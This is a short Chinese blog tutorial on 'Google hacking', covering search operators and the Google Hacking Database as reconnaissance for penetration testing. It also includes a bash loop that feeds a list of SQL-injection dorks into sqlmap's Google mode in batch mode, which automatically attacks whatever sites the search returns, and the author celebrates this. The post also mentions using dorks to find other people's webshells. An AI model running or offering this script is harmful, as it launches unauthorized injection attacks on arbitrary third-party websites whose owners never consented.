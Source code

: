 ```yaml
---
layout:     post
title:      白帽子第一课：Google Hacking
date:       2013-12-31 09:00:00
summary:    Google 强大的爬虫提供的不仅仅是关键词搜索的结果，稍微加点参数就能把google发挥的淋漓尽致，而这也是非常简单的，所以google hacking 也叫 google dorks，因此这应该是白帽子学习的第一种技能！
tags:       安全
---
```


Google 强大的爬虫提供的不仅仅是关键词搜索的结果，稍微加点参数就能把google发挥的淋漓尽致，而这也是非常简单的，所以google hacking 也叫 google dorks，因此这应该是白帽子学习的第一种技能！
google提供的搜索参数非常庞大应该，wiki提供了一个常用参数的列表，而个人按照频率來说主要还是下面几个：
site, filetype, inurl, intitle
当然有的不是以参数出现的，比如"key words"就是完全匹配，还有 or , and等也很常用。

网上有个[GHDB][1]（这也[有个][2]），就是已经收集好的搜索规则，主要用于渗透前的信息收集。

个人觉得会用google比工具党來的还有技术含量点，至少这个需要强大的想象力。

看过有人用google批量找别的X阔留下的webshell，不过现在不太好使了

最黄最暴力的我估计就是批量找sql注入点和xss了，这里是别人的sql的GHDB，写成脚本，放到远程跑去，把解析回来的地址放到sqlmap里跑，爽歪歪！ 简单写了个脚本，[ghdb_sql][3]和脚本放到[sqlmap][4]目录

```bash
#!/bin/bash
cat ghdb_sql | while read line
do
        echo ==================================
        echo use $line
        echo ==================================
        ./sqlmap.py -g "$line" --batch
done
```

了解更多，请自行Google Hacking: `google hacking filetype:pdf`


  [1]: http://www.exploit-db.com/google-dorks/
  [2]: http://www.hackersforcharity.org/ghdb/
  [3]: http://int64ago.qiniudn.com/ghdb_sql
  [4]: http://sqlmap.org/
